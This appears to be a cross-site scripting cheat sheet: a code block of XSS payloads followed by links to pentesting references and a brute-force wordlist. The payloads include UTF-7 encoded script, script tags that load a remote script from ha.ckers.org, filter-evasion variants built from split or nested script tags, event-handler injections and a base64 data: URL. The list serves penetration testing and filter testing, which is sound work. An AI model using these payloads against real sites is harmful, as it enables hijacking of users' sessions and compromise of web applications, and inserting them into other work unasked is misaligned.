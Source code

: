 ```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<A HREF="http://66.102.7.147/">XSS</A>

0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"

veris-->group<svg/onload=alert(/XSS/)//

#"><img src=M onerror=alert('XSS');>

element[attribute='<img src=x onerror=alert('XSS');>

[<blockquote cite="]">[" onmouseover="alert('RVRSH3LL_XSS');" ]

%22;alert%28%27RVRSH3LL_XSS%29//

javascript:alert%281%29;

<w contenteditable id=x onfocus=alert()>

alert;pg("XSS")

<svg/onload=%26%23097lert%26lpar;1337)>

<script>for((i)in(self))eval(i)(1)</script>

<scr<script>ipt>alert(1)</scr</script>ipt><scr<script>ipt>alert(1)</scr</script>ipt>

<sCR<script>iPt>alert(1)</SCr</script>IPt>

<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">test</a>
```



# References
- [https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)
- [https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide](https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide)
- [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt) -- *Bruteforce list*